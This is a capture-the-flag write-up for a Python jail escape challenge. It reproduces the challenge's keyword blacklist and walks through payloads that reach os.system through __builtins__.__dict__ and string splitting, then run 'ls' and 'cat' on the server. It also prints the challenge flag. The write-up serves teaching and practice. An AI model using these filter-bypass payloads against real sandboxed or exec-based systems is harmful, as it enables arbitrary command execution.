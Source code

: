 ```yaml
---
layout: writeup
title: I want to break free
ctf: Killer Queen CTF
points: 205
solves: 204
tags: 
    - pwn
date: 2021-11-01
description: |-
    I want to break free... from this Python jail.
flag: kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

We are given a Python file which asks us whether we can escape from jail and prompts us for an input. This input is run directly in an `exec()` call -- except if it is found to be unsafe. It is unsafe in the following two cases:
    
* One of the characters are outside the ASCII range, 33-126
    * This includes space, which is therefore not allowed
* A word from the provided blacklist is part of the input

The blacklist contains:
```
cat
grep
nano
import
eval
subprocess
input
sys
execfile
builtins
open
dict
exec
for
dir
file
input
write
while
echo
print
int
os
```

What we typically want in these sorts of challenges is to execute code in the server shell, so we can read out the flag. We do this by trying to get access to `os.system()`. If we have access to `__builtins__`, then we can run commands by using e.g.

    __builtins__.__import__('os').system('ls')

We have a few issues here. `import`, `os`, and `system` are all blacklisted. We can easily get around the `os` problem by just splitting the string in two and using string concatenation:

    __builtins__.__import__('o''s').system('ls')

To get around the `import` and `system` problems, we can -- instead of using dot notation -- get the elements from e.g. `__builtins__` as a dictionary by using `__builtins__.__dict__` and then access what we want as a key instead:

    __builtins__.__dict__['__import__']('o''s').__dict__['system']('ls')

And now that we access them as a string, we can use the same string splitting to get around the blacklist. This lets us execute `ls` on the server to find the flag:

    __builtins__.__dict__['__imp''ort__']('o''s').__dict__['sy''stem']('ls')

and we get

```
bin
blacklist.txt
boot
cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt
dev
etc
home
jail.py
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
The flag is very likely to be in the file with the long hex name, so we want to run `cat` on this - we can just use `cat c*.txt` to shorten the command, as this is the only txt file starting with `c`. We run into other issues here - first, the `cat` command is blacklisted, so we must split it up. And secondly we are using our first space, which is not allowed. Since we use it in a string, the easy fix is to just use another encoding of it, e.g. `\x20` in hex (or something else in binary or octal). This will be used as a space, but there is no longer a space in the actual input:

    __builtins__.__dict__['__imp''ort__']('o''s').__dict__['sy''stem']('ca''t\x20c*.txt')

Inputting this, we get the flag.